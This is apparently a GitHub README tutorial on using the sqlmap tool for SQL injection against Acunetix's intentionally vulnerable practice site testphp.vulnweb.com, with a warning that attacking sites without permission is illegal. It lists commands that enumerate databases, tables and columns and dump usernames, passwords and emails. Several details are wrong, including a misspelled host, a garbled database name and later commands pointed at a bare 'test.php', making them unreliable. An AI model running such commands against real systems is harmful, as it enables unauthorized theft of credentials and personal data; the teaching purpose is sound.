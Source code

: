 # Linux-Project--Website-Database-Hacking-using-sqlmap-tool-
Website Database Hacking using sqlmap tool 

We will be working on a sample website https://testphp.vulnweb.com/   to demonstrate SQL injection techniques, attacking a live website without permission is illegal. This https://testphp.vulnweb.com/  website we'll use is oneweb.com, which is provided by Acunetix. On this https://testphp.vulnweb.com/ , navigate to the URL.

Identify Databases:
sqlmap -u "testphp.vulneb.com/artists.php?artist=1" --dbs
This command checks the website for SQL injection vulnerabilities and lists the names of databases if found.

Find Tables in a Specific Database:
sqlmap -u "test.php" -D acurat --tables
This command lists all tables within the specified database, acurat.

Find Columns in a Specific Table:
sqlmap -u "test.php" -D acurat -T users --columns
This command lists all column names in the users table of the acurat database.

Retrieve Username Data:
sqlmap -u "test.php" -D acurat -T users -C uname --dump
This command extracts data from the uname column in the users table, retrieving usernames.


Retrieve Password Data:
sqlmap -u "test.php" -D acurat -T users -C pass --dump
This command extracts data from the pass column in the users table, retrieving passwords.

Retrieve Email Data:
sqlmap -u "test.php" -D acurat -T users -C email --dump
This command extracts data from the email column in the users table, retrieving email addresses.

These commands demonstrate how SQLMap can be used to test for SQL injection vulnerabilities, list database and table structures, and retrieve sensitive information from a database.
